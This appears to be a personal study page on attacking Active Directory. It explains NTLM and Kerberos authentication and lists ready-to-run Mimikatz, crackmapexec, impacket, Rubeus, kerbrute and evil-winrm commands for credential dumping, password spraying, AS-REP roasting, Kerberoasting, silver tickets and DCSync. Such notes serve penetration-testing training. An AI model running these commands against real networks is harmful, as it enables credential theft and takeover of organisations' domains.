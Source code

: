 ```yaml
---
layout: blank
pagetitle: Attacking Active Directory
---
```


## Understanding Authentication

**NTLM**
- Used when authenticating via IP address (not hostname) or a hostname not present on the AD DNS server
- Steps are:
	- Calculate NTLM Hash
	- Send username to application server
	- App server sends nonce
	- Client encrypts nonce using their hash and sends both to app server
	- App server sends client response, username, and nonce to the DC (user's hash unknown)
	- DC encrypts nonce with NTLM hash (already known) of the user and compares to response
	- If valid, DC approves authentication

**Kerberos**
- Adopted from Kerberos v5 from MIT, used as primary auth method since 2003
- Uses a ticket system, DC acts as a Key Distribution Center (KDC)
- Rather than authenticating against the application, clients get a ticket from the KDC
- Steps:
	- Client sends Authentication Server Request (AS-REQ) to the DC
		- This contains a timestamp encrypted using the hash derived from the user's username and password
	- DC receives request and looks up the password hash of the user in the `ntds.dit` file, using it to decrypt the timestamp
	- If the decryption is successful and the timestamp is unique, auth is granted
	- DC then sends client an Authentication Server Reply (AS-REP), containing a session key and a ticket-granting ticket (TGT)
		- Session key can be decrypted with user hash and reused
		- TGT contains user and domain info, IP address of client, timestamp, and a session key
			- The TGT is encrypted using the NTLM hash of the krbtgt user
			- TGT is valid for 10 hours by default and is automatically renewed while session remains active
	- Client constructs a Ticket-Granting Service Request (TGS-REQ) consisting of the current user and timestamp encrypted with the session key, resource name, and encrypted TGT and sends that back to the DC/KDC
	- The DC then ensures the resource exists and decrypts the TGT with its secret key and extracts the session key for the username and timestamp of the request
	- The KDC then performs the following checks:
		- The TGT has a valid timestamp
		- The username from the TGS-REQ matches the username of the TGT
		- The client IP address coincides with the TGT IP address
	- If those checks pass, the KDC responds with a Ticket-Granting Server Reply (TGS-REP), containing three parts:
		- Name of the service access granted for
		- 2nd session key to be used between the client and service
		- Service ticket containing the username, group memberships, and 2nd session key
	- Now that the client has a session key and a service ticket, it sends the application an Application Request (AP-REQ) including the username/timestamp encrypted with the service ticket session key and the ticket itself
	- The application server decrypts the service ticket using its account password hash, extracting the username/session key, using the session key to decrypt the username from the AP-REQ. If they match, the service assigns the appropriate permissions to the user based on the group memberships in the ticket, and access is granted

**Cached Credentials**
- Password hashes stored in Local Security Authority Subsystem Service (LSASS)
- Basically just use Mimikatz as before
	- `privilege::debug` gives us the `SeDebugPrivilege` to run below commands
	- `token::elevate` to elevate to SYSTEM user
	- `lsadump::sam` will dump NTLM hashes of local users
	- `sekurlsa::logonpasswords` will look for clear-text passwords, dump NTLM hashes (including domain users), and dump Kerberos tickets
	- `sekurlsa::tickets` will show tickets stored in memory
		- We want to steal TGT more than a TGS for overall service access (rather than just one)
- Public Key Infrastructure (PKI)
	- Part of the Active Directory Certificate Service (AD CS), which implements PKI to exchange digital certs between authenticated users and trusted resources
	- Certificate Authority (CA) servers can grant/revoke certificates
		- The private keys used are usually non-exportable, but Mimikatz's `crypto::capi` and `crypto::cng` can take care of that

## AD Password Attacks

**Password Spraying**
- Avoiding lockout - `net accounts` will show authentication lockout information
- Using [script enumeration](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/modules/Spray-Passwords.ps1) 
	- `.\Spray-Passwords.ps1 -Pass Nexus123! -Admin`
- SMB password spraying
	- Use `crackmapexec`
		- `crackmapexec smb {IP_with_smb} -u users.txt -p passwords.txt -d {domain} --continue-on-success`
			- Can also pass single username/password
		- This sprays passwords against a single IP's SMB share
		- This will also show whether the user is an administrator
	- SMB hash spraying
		- `crackmapexec smb {IP} -u {users.txt} -H {hashes.txt}`
	- Crackmapexec can also run comands via SMB:
		- `nxc smb {IP} -u {username} -p {password} -X 'powershell -e ...`
- Obtaining TGTs
	- Use [kerbrute](https://github.com/ropnop/kerbrute/releases/) - `.\kerbrute_windows_amd64.exe passwordspray -d {domain} .\usernames.txt "{password}"`
	- AS-REP Roasting without credentials, described below
- WinRM
	- Indicated by port 5985/5986
	- `evil-winrm -i {IP} -u {domain_user} -p {password}`
	- Also accepts NTLM hashes `evil-winrm -i {IP} -u {user} -H {hash}`
- RPC:
	- Indicated by port 135,593
	- Can get an RPC shell with `rpcclient -U {username} {IP}`
		- `enumdomusers` can get the domain users from within RPC, which we can then check again for preauth
		- `queryuser {username}` to get user properties (passwords could be in descriptions)
			- Can also just `querydispinfo`

**AS-REP Roasting**
- Requires that Kerberos preauth is disabled, which prevents sending an AS-REQ on behalf of any user
- Performing hash cracking after receiving the AS-REP from the KDC
- Performed with `impacket-GetNPUsers` on kali side
	- `impacket-GetNPUsers -dc-ip {dc} -request -outputfile hashes.asreproast {domain}/{username}` (alongside password)
		- With users.txt: `impacket-GetNPUsers {domain}/ -no-pass -usersfile users.txt -dc-ip {IP} | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'`
	- Hashes can be cracked with Hashcat's 18200
- Performed with [`Rubeus`](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) on Windows side
	- `.\Rubeus.exe asreproast /nowrap`
- This can also be done without a password to find users who don't have Kerberos pre-auth
	- `impacket-GetNPUsers -dc-ip {IP} {domain}/`
	- These users don't require a password to grab the TGT hash

**Kerberoasting**
- Cracking the password of the service account by using the encrypted SPN password hash used on the service ticket
- Can use `impacket-GetUserSPNs` if remote with creds
	- `impacket-GetUserSPNs {domain}/{user}:{password} -dc-ip {IP} -request`
- Can use `Rubeus` again if local
	- `.\Rubeus.exe kerberoast /outfile:hash.txt`
- Can crack with Hashcat's 13100 mode

**Silver Tickets**
- Forging our own service tickets via a password hash that should only be known to the DC and service account
	- Basically forging a ticket using a hash that tells the service we have more permissions than we actually do
	- This requires that Privileged Account Certificate (PAC) be disabled, which it often is
- To create the ticket, we need:
	- SPN password hash - can use `sekurlsa::logonpasswords` on machine with established session with application (usually(?) current machine)
	- Domain SID - `whoami /user` minus the last number (user RID)
	- Target SPN - basically just the DNS host name and the protocol (like HTTP)
- Performed using `mimikatz`
	- Don't escalate privileges to `NT Authority\System`
	- `kerberos::golden /sid:{sid} /domain:{domain} /ptt /target:{dnshostname} /service:{service_protocol(http)} /rc4:{NTLM_hash} /user:{any_domain_user}`
		- `ptt` allows us to inject forged ticket into memory of target machine
- Then, we should be able to access the service with the following:
	- `iwr -UseDefaultCredentials {protocol}://{dnshostname}`

**Domain Controller Synchronization**
- Sometimes multiple DCs across an environment for redundancy
- These DCs use Directory Replication Service (DRS) to synchronize
- DCs receiving requests for updates don't check if the request came from a known DC and only verify that the SID has the correct privileges
	- This means that we just need a user with the correct privileges
	- *Required*: Replicating Directory Changes, Replicating Directory Changes All, Replicating Directory Changes in Filtered Set 
		- Owned by Domain Admins, Enterprise Admins, and Administrators by default
- If we have `WriteDACL` on the domain via a group, we can give ourselves the necessary permissions
- Performed with `mimikatz` on domain-joined machine or `impacket-secretsdump` on kali
	- This gives us a way to get the hash of any domain user
	- `lsadump::dcsync /user:{domain}\{user}` 
- Can also be performed with `impacket-secretsdump`
	- `impacket-secretsdump -just-dc-user {target_domain_user} {domain}/{admin_username}:"{password}"@{DC_IP}`
	- `impacket-secretsdump -hashes :{NTLM_hash} {domain}/{user}@{DC_IP}`

